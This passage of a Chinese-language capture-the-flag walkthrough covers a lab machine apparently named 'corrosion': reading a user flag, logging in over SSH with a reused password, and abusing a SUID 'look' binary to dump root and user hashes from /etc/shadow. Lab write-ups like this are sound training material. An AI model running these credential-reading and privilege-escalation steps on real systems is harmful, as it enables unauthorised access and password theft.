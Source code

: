             ```python
            tomcat@corrosion:/home/randy$ cat randombase64.py 
            import base64
            message = input("Enter your string: ")
            message_bytes = message.encode('ascii')
            base64_bytes = base64.b64encode(message_bytes)
            base64_message = base64_bytes.decode('ascii')
            print(base64_message)
            tomcat@corrosion:/home/randy$ 
            ```
            
        - `user.txt`
            
            ```python
            tomcat@corrosion:/home/randy$ cat user.txt
            ca73a018ae6908a7d0ea5d1c269ba4b6
            ```
            
3. 操作了一番还是没找到提权的地方，记得之前给了一串密码`melehifokivai` ，只尝试了randy的用户还有`jaye`账号的没尝试
    
    尝试在`jaye`使用`ssh`登录
    
    ```python
    ssh jaye@192.168.56.6
    jaye@192.168.56.6's password: 
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-34-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    19 updates can be applied immediately.
    To see these additional updates run: apt list --upgradable
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    $ 
    
    ```
    
    登陆成功
    

## 提权 - jaye用户

1. 寻找敏感文件
    - 在家目录下存在`Files`文件夹权限是`root`的，里边存在个可执行文件`look` ，是`root`权限的，并且我们拥有执行权限，这样我们就可以使用`look`命令来读取`shadow`文件的内容了
        
        ```python
        ---s--s--x  1 root root 14728 Sep 17  2021 look
        ```
        
2. 使用`look`命令读取`shadow`文件，读取`root`用户以及`randy`用户
    
    ```python
    ./look -f "root" /etc/shadow
    root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
    ./look -f "randy" /etc/shadow
    randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
    ```
    